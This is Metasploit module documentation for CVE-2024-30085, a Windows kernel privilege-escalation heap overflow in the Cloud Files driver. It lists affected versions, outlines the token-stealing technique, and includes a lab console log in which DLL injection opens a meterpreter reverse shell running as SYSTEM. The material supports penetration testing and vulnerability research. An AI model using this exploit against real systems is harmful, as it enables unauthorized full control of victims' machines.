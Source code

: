 ## Vulnerable Application
As of the writing of this documentaiton, NIST claims on https://nvd.nist.gov/vuln/detail/cve-2024-30085 that the
following versions of Windows are vulnerable:
```
cpe:2.3:o:microsoft:windows_10_1809:*:*:*:*:*:*:*:*
Up to (excluding) 10.0.17763.5936

cpe:2.3:o:microsoft:windows_10_21h2:*:*:*:*:*:*:*:*
Up to (excluding) 10.0.19044.4529

cpe:2.3:o:microsoft:windows_10_22h2:*:*:*:*:*:*:*:*
Up to (excluding) 10.0.19045.4529

cpe:2.3:o:microsoft:windows_11_21h2:*:*:*:*:*:*:*:*
Up to (excluding) 10.0.22000.3019

cpe:2.3:o:microsoft:windows_11_22h2:*:*:*:*:*:*:*:*
Up to (excluding) 10.0.22621.3737

cpe:2.3:o:microsoft:windows_11_23h2:*:*:*:*:*:*:*:*
Up to (excluding) 10.0.22631.3737

cpe:2.3:o:microsoft:windows_server_2019:*:*:*:*:*:*:*:*
Up to (excluding) 10.0.17763.5936

cpe:2.3:o:microsoft:windows_server_2022:*:*:*:*:*:*:*:*
Up to (excluding) 10.0.20348.2522

cpe:2.3:o:microsoft:windows_server_2022_23h2:*:*:*:*:*:*:*:*
Up to (excluding) 10.0.25398.950
```

In practice, this exploit did not work on Windows 10_1809, but does appear to work on Windows 10_2004, 10_20H2, and
10_21H1 as well as the remaining vulnerable versions listed by NIST.

CVE-2024-30085 is a Windows Kernel Elevation of Privilege Vulnerability which affects many recent versions of Windows 10,
Windows 11 and Windows Server 2022.

The vulnerability is a heap overflow in the Cloud Files Mini Filter Driver, a driver that facilitates
management and synchronization of files between a local host and a remote server.  Under certain specific
circumstances, the application will not perform a check of the size when updating a file in local memory,
allowing a heap overflow.
By overflowing and corrupting _WNF_STATE_DATA objects, we can leak the location of the ALPC handle table and again
to leak a PipeAttribute object.  The PipeAttribute object then allows us to leak the location of the system process
token and overwrite own on token with it.
If this exploit fails, it will not work again until the target reboots.

### Setup

Windows 10 2004 to Windows 11 23H2 and Server 2022 through server 23H2 are vulnerable.
This exploit module has been tested on Windows 10 2004 through Windows 11 23H2 10.0.22631.2428 and Server 2022 
10.0.20348.169

## Verification Steps

1. Start msfconsole
1. Get a user level session on an affected Windows machine
1. Do: `windows/local/cve_2024_30085_cloud_files`
1. Set the `LHOST`, `LPORT`, and `SESSION` options
1. Run the module
1. Receive a session running in the context of the `NT AUTHORITY\SYSTEM` user.

## Scenarios
### Windows 11 (10.0 Build 22631.2428)
```
msf exploit(windows/local/cve_2024_30085_cloud_files) > show options

Module options (exploit/windows/local/cve_2024_30085_cloud_files):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION          3                yes       The session to run this module on


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.5.135.201     yes       The listen address (an interface may be specified)
   LPORT     4545             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x64



View the full module info with the info, or info -d command.

msf exploit(windows/local/cve_2024_30085_cloud_files) > set session 5
session => 5
msf exploit(windows/local/cve_2024_30085_cloud_files) > run
[*] Started reverse TCP handler on 10.5.135.201:4545 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] OS version: Windows 11 version 23H2
[+] The target appears to be vulnerable.
[*] Launching notepad to host the exploit...
[*] The notepad path is: C:\Windows\System32\notepad.exe
[*] The notepad pid is: 4152
[*] Reflectively injecting the DLL into 4152...
[*] Sending stage (203846 bytes) to 10.5.132.111
[*] Meterpreter session 6 opened (10.5.135.201:4545 -> 10.5.132.111:49800) at 2025-03-06 16:19:44 -0600

meterpreter > sysinfo
Computer        : WIN11_23H2_8EA9
OS              : Windows 11 (10.0 Build 22631).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
